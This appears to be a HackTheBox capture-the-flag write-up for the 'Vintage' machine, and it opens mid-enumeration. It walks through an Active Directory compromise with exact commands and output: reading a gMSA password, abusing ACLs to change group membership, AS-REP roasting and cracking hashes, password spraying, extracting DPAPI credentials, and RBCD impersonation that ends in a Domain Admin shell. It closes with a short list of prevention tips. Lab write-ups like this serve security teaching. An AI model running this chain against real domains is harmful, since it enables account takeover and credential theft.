[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User svc_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_ark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
I am not getting anything, time to fire up bloodhound and do some enumeration there:
P.Rosa is a member of domain users, let's check the objects previously enumerated via ldap(fs01 and gmsa01)
from fs01$ -> group delegated object control
from gmsa01$ -> Group delegated object control
We can see here that GMSA01$ is misconfigured since Domain Computers member (including FS01) are able to read its password. This issue allows machine accounts dump the gMSA password and abuse its ACLs for privilege escalation.
Initial Exploitation
Once we found the gMSA misconfiguration, the first step was using the FS01$ machine account to grab the managed password for GMSA01$ and use that to move deeper into the domain.
Obtaining TGT for FS01$
First, I requested a Kerberos Ticket Granting Ticket (TGT) for FS01$:
(vintage) b4go@parrot-~/HTB/vintage $ impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Saving ticket in FS01$.ccache
(vintage) b4go@parrot-~/HTB/vintage $ export KRB5CCNAME=FS01\$.ccache
With the Kerberos ticket in place, the environment was set to use the TGT for Kerberos auth actions.
Dumping gMSA Password via ACL Abuse
Since we are authenticated as fs01$ and have the right to read the gmsa01$ pass we dump it.
back in bloodhound if we check outbound object control -> first degree object control we deduce that the object we now own has write rights over servicemanagers.
(vintage) b4go@parrot-~/bloodyAD $ bloodyAD -d "vintage.htb" --host dc01.vintage.htb --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword
distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
with the NTLM hash now we want to authenticate as gmsa01$ with kerberos.
I will check what we can do as ServiceManagers
we have generic all over the svc_* service accounts.
So the plan will be to add P.Rosa to the servicemanagers and then add the DONT_REQ_PREAUTH flag so we enable AS-REP roasting, as we have seen earlier when we checked the getNPUsers command the service accounts have the UF_DONT_REQUIRE_PREAUTH set.
First get the ticket so we can authenticate
(vintage) b4go@parrot-~/HTB/test $ impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in GMSA01$.ccache
(vintage) b4go@parrot-~/HTB/test $ export KRB5CCNAME=GMSA01\$.ccache
Modifying Group Memberships for Exploitation
I added P.Rosa to the SERVICEMANAGERS group to leverage these rights:
(vintage) b4go@parrot-~/bloodyAD $ bloodyAD -d "VINTAGE.HTB" --host dc01.vintage.htb --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS
(vintage) b4go@parrot-~/bloodyAD $ impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in P.Rosa.ccache
(vintage) b4go@parrot-~/bloodyAD $ export KRB5CCNAME=P.Rosa.ccache
Enabling AS-REP Roasting on Service Accounts
Next, I modified the userAccountControl flags on the service accounts to enable UF_DONT_REQUIRE_PREAUTH, making them vulnerable to AS-REP roasting:
(vintage) b4go@parrot-~/bloodyAD $ bloodyAD -d "VINTAGE.HTB" --host dc01.vintage.htb --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
(vintage) b4go@parrot-~/bloodyAD $ bloodyAD -d "VINTAGE.HTB" --host dc01.vintage.htb --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
(vintage) b4go@parrot-~/bloodyAD $ bloodyAD -d "VINTAGE.HTB" --host dc01.vintage.htb --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
Retrieving Roastable Hashes
With pre-authentication disabled, I successfully retrieved AS-REP hashes for the service accounts:
(vintage) b4go@parrot-~/HTB/vintage $ impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile users vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
$krb5asrep$23$svc_ldap@VINTAGE.HTB:142aea165f7a25fae56da8c68581ab56$1a0986ff498833b3d6411c4178235deb6944f0d2bf0b21df75da6a5285a95252afe67a12ae9854e915fb8d6a271c1b39c31d3daae56bfd0cbbfc7b1a6b3a4dabe8bdaff65d0649bd2d6347664042f5d8e69c865de2658f9d5c2419fb1d26589df7a6e797e646aa7e13dd2f0fb0c5a52581329e48e078e01459f188a4ee463506af6406df5d039e43ceb3501df8a3b5d3e147bf105357e7674e1c034b1d6336de40b36222fe5db9da16b7cad20e516d3c3deecffae737b824508106c14a8b4da8e40344e37a05b099abf70190085a1efbf884b717ecc7a8cbf80519f0884df0b00ee9337cf27577adb56e
$krb5asrep$23$svc_ark@VINTAGE.HTB:1e0b21317c89ab608e3fde7e3b43f8ac$64e3bc11ac68ec90ac25353f837c26ece2eb8842fe98ee0c497f5819781bdbf615daf20feac74cc47905fed586bc1d96e2d7c47f7c3463291b5ada1d8cffa2bfb4079a15125fafe60757787af373ca45392236f38c644a80b20aa811acd3bf13c647439defc4dc270b6faf0ba0a9f36170dceced00681539c15cccddb4583f2fdf2b2ab78302e897cdc5144e8bbe6d16b1cc742f1e87238e5da6c3d74ca72919b91c441ea200ed5f4c233ec4385c44d3a2cf2283f538a0f738b566922f23a6668bea57bce0fae27c652e34b07109695dea72ccae0bbe05f8dc73a4aa2c6d54b430797675f1bac752c75e
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
For some reason we are not getting the hash for svc_sql, let's check
(vintage) b4go@parrot-~/HTB/vintage $ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'svc_sql' --attr userAccountControl
distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH
SVC_SQL was initially disabled, so I re-enabled the account by removing the ACCOUNTDISABLE flag:
(vintage) b4go@parrot-~/HTB/vintage $ bloodyAD -d "VINTAGE.HTB" --host dc01.vintage.htb --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
again
(vintage) b4go@parrot-~/HTB/vintage $ impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile users vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:76069a4cbcd42c10df976cba39f7c55b$df593f77ed5214cc5f279bad66be1befc5a6521cea16d68c23d18665e27eaf34311757695103dc944d7b792e910a0b78918164f12cde8cf787edb6d5e9c18a17c2426ed77215c1979d65760b7d0e681539cbb5c4aba293915f1fd1097f87bfd827b2eed8ccae521f3c588611854df8ac10acfa0ea5022e6d5d88203b568b47a6b238bc5016c955d0bc32d0405d7d8167652f08ee928ab2d7b506b2aeae690b233eb16e2b666a51fa24a0a7b89ddb1ba6a20b2c266ac38b6340781ef2749d173a1010e73a8a316fe083c2e77d74944a84cdb9b2198572545bf5771bcf572bd1265e1acd9c6e247ab9b52c
$krb5asrep$23$svc_ldap@VINTAGE.HTB:408d9b580bd9ed6acdc9c4d387b674c7$be0fe4ce2ab9160a1ce76df65a41ee523b6396e608a66a8ee2785ea74f92d06b6d4708e56e6aebe3eb4afcee32f0881539a2daf8e42c799ceb401f62a812486a2ca7a2335be6184775c298d7ea53235cb6a470568e433a7e087e130b38581ee1fcd739a62a3e0c6f2b483111dbbf173eff7b8076f0f9905109dea8053fd6bf729dcd8b5ad35166f649bf5c124ecc5987f00c4f8a6729478e39ecae38a94fa556f2ba4649358507299a7916858a53c6e623f83a604ff75568860083a79ca6c3e4a52f0d44c456abe4fb3a3aae625c967c5b9f63192519f20209d64de398c07a37c8e2d6a22a634f23b102
$krb5asrep$23$svc_ark@VINTAGE.HTB:fab242b6ed9a483615e15a55be21a1e1$01cba089e508a38bd67681043663d988308df1b7e786cbb29e3ac4facba98e970b1023ae1a25370c8ca2cb473c775ac2604a26089a1be406e7f4587fb677d2f1508307759817ef1aabce5c9c93bb3ac4503e58a46c88141ed7212b83f30cdef25a29c7fe969ea368148ac1cce1538aa03daa0b85bfa8dc608da24e767f282496dfc0119071c913ad38f95b8ac37f331b11bb34884e4f37808ce1acb5f2a346678f4bfd94413b3c5cc20c8e815ae13ef45b15adb7707a08d03aafccdea5ccee39425a240a79313783c524836727ed85cf96c731f269278aa7067c7080c2c76098e61d5d69044785a075ca
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
Cracking the AS-REP Hashes
(vintage) b4go@parrot-~/HTB/vintage $ hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 3.1+debian Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-skylake-avx512-AMD Ryzen 7 8845HS w/ Radeon 780M Graphics, 1769/3602 MB (512 MB allocatable), 5MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Not-Iterated
ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.
Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
Host memory required for this attack: 0 MB
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
$krb5asrep$23$svc_sql@VINTAGE.HTB:76069a4cbcd42c10df976cba39f7c55b$df593f77ed5214cc5f279bad66be1befc5a6521cea16d68c23d18665e27eaf34311757695103dc944d7b792e910a0b78918164f12cde8cf787edb6d5e9c18a17c2426ed77215c1979d65760b7d0e681539cbb5c4aba293915f1fd1097f87bfd827b2eed8ccae521f3c588611854df8ac10acfa0ea5022e6d5d88203b568b47a6b238bc5016c955d0bc32d0405d7d8167652f08ee928ab2d7b506b2aeae690b233eb16e2b666a51fa24a0a7b89ddb1ba6a20b2c266ac38b6340781ef2749d173a1010e73a8a316fe083c2e77d74944a84cdb9b2198572545bf5771bcf572bd1265e1acd9c6e247ab9b52c:Zer0the0ne
Approaching final keyspace - workload adjusted.
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: hashes
Time.Started.....: Thu Apr 24 17:35:40 2025 (11 secs)
Time.Estimated...: Thu Apr 24 17:35:51 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 2901.6 kH/s (0.29ms) @ Accel:256 Loops:1 Thr:1 Vec:16
Recovered........: 1/3 (33.33%) Digests (total), 1/3 (33.33%) Digests (new), 1/3 (33.33%) Salts
Progress.........: 43033155/43033155 (100.00%)
Rejected.........: 0/43033155 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[21214654412121] -> $HEX[042a0337c2a156616d6f732103]
Started: Thu Apr 24 17:35:29 2025
Stopped: Thu Apr 24 17:35:52 2025
got a hit from svc_sql -> Zer0the0ne
I will try and spray this password over the users list and see if anyone else can log in with this pass
(vintage) b4go@parrot-~/HTB/vintage $ /opt/kerbrute -d vintage.htb --dc vintage.htb -v passwordspray users Zer0the0ne
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 04/24/25 - Ronnie Flathers @ropnop
2025/04/24 17:38:17 > Using KDC(s):
2025/04/24 17:38:17 > vintage.htb:88
2025/04/24 17:38:17 > [!] krbtgt@vintage.htb:Zer0the0ne - USER LOCKED OUT
2025/04/24 17:38:17 > [!] guest@vintage.htb:Zer0the0ne - USER LOCKED OUT
2025/04/24 17:38:17 > [!] administrator@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > [!] L.Bianchi@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > [!] G.Viola@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > [!] P.Rosa@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > [!] R.Verdi@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > [!] M.Rossi@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > [+] VALID LOGIN: svc_sql@vintage.htb:Zer0the0ne
2025/04/24 17:38:17 > [!] svc_ark@vintage.htb:Zer0the0ne - Got AS-REP (no pre-auth) but couldn't decrypt - bad password
2025/04/24 17:38:17 > [!] svc_ldap@vintage.htb:Zer0the0ne - Got AS-REP (no pre-auth) but couldn't decrypt - bad password
2025/04/24 17:38:17 > [!] C.Neri_adm@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > [+] VALID LOGIN: C.Neri@vintage.htb:Zer0the0ne
2025/04/24 17:38:17 > [!] L.Bianchi_adm@vintage.htb:Zer0the0ne - Invalid password
2025/04/24 17:38:17 > Done! Tested 14 logins (2 successes) in 0.202 seconds
I would try to log in with win-rm with this user:password but it won't work for the same reason we couldn't earlier, I will get a ticket and log in using that:
Access as C.Neri via Kerberos TGT
Generated a Kerberos TGT for C.Neri and authenticated successfully:
(vintage) b4go@parrot-~/HTB/vintage $ impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in c.neri.ccache
(vintage) b4go@parrot-~/HTB/vintage $ export KRB5CCNAME=c.neri.ccache
Finally logged into the machine using evil-winrm with Kerberos authentication, gaining initial shell access:
(vintage) b4go@parrot-~/HTB/vintage $ evil-winrm -i dc01.vintage.htb -r vintage.htb
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents>
User flag owned
Privilege Escalation
Once on the box as C.Neri, I began the privilege escalation process by investigating available user privileges:
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
The SeMachineAccountPrivilege privilege allows a user to add machines to the domain. This opens the door for a RBCD attack. However, to fully exploit RBCD, we still needed the identity of a high-privileged account like L.Bianchi_ADM.
DPAPI Credential Extraction
After some enumeration attempts (WinPEAS, cmdkey /list, registry queries), I found credentials under:
C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
Files in this folder could contain DPAPI-protected credentials. I encoded and downloaded one of these masterkey files:
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -h
Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a-hs- 6/7/2024 1:17 PM 740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs- 6/7/2024 1:17 PM 740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs- 6/7/2024 1:17 PM 904 BK-VINTAGE
-a-hs- 6/7/2024 1:17 PM 24 Preferred
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> certutil -encode "C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b" C:\Windows\Temp\file.b64
Input Length = 740
Output Length = 1076
CertUtil: -encode command completed successfully.
*Evil-WinRM* PS C:\Users\C.Neri\Documents> download C:\Windows\Temp\file.b64
Info: Downloading C:\Windows\Temp\file.b64 to file.b64
Info: Download successful!
Using the known password Zer0the0ne and the correct SID, I decrypted the masterkey:
(vintage) b4go@parrot-~/HTB/vintage $ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[MASTERKEYFILE]
Version : 2 (2)
Guid : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags : 0 (0)
Policy : 0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525
Credential Dump and Discovery of High Privilege User
I used the decrypted masterkey to extract a stored credential that revealed the password for c.neri_adm:
(vintage) b4go@parrot-~/HTB/vintage $ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type : 0x00000001 (CRED_TYPE_GENERIC)
Target : LegacyGeneric:target=admin_acc
Description :
Unknown :
Username : vintage\c.neri_adm
Unknown : Uncr4ck4bl3P4ssW0rd0312
we have now creds for c.neri_adm, let's check bloodhound to see what we can do with this c.neri_adm -> outbound object control -> first degree object control
genericwrite in delegated admin, let's now check what can delegatedadmins do now check delegated admins
This means both c.neri_adm and l.bianchi_adm belong to Delegated Admins, checking l.bianchi_adm we see
BloodHound confirmed that c.neri_adm had GenericWrite permissions over the Delegated Admins group, which includes the high-privileged user L.Bianchi_ADM.
Abusing Group Membership to Escalate Privileges
As before with SERVICEMANAGERS, I added SVC_SQL to the Delegated Admins group using c.neri_adm:
(vintage) b4go@parrot-~/HTB/vintage $ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
[+] SVC_SQL added to DELEGATEDADMINS
Setting SPN for RBCD Exploitation
To trigger the delegation abuse, I configured a fake SPN on SVC_SQL (the SPN does not need to point to a real service):
(vintage) b4go@parrot-~/HTB/vintage $ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName -v "cifs/fake"
[+] SVC_SQL's servicePrincipalName has been updated
Kerberos Ticket Setup for Impersonation
Since we already have the password in clear text, we can skip roasting or hash-cracking and directly request the TGT ticket.
(vintage) b4go@parrot-~/HTB/vintage $ impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in svc_sql.ccache
(vintage) b4go@parrot-~/HTB/vintage $ export KRB5CCNAME=svc_sql.ccache
Impersonating L.Bianchi_ADM via RBCD (S4U2Proxy)
Used getST.py to impersonate L.Bianchi_ADM by requesting a service ticket for cifs/dc01.vintage.htb:
(vintage) b4go@parrot-~/HTB/administrator $ impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Impersonating L.BIANCHI_ADM
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM.ccache
basically we are asking the DC to give us a TGS FOR cifs/dc01.vintage.htb not as svc_sql but as l.bianchi_adm
(vintage) b4go@parrot-~/HTB/vintage $ export KRB5CCNAME=L.BIANCHI_ADM.ccache
Achieving Full Domain Admin Access
Finally, with the impersonated ticket, I launched a WMI shell as L.Bianchi_ADM and confirmed full Domain Admin rights:
(vintage) b4go@parrot-~/HTB/vintage $ impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vintage\l.bianchi_adm
Successfully retrieved the root flag:
Conclusion
Vintage is a solid example of how small misconfigurations in Active Directory can open the door to full domain compromise without exploits needed, just proper enumeration and abuse of weak setups. Starting from low-privileged creds, we leveraged gMSA misconfigurations, sloppy ACLs, and password reuse to work our way up to Domain Admin.
Prevention Tips:
- Watch for broad rights like GenericAll or Write assigned to large groups.
- Only allow specific systems to retrieve gMSA passwords.
- Disable pre-authentication exemptions unless absolutely needed
- Deploy MFA wherever possible.
- Alert on LDAP abuse, group changes, and ticket requests for unusual SPNs.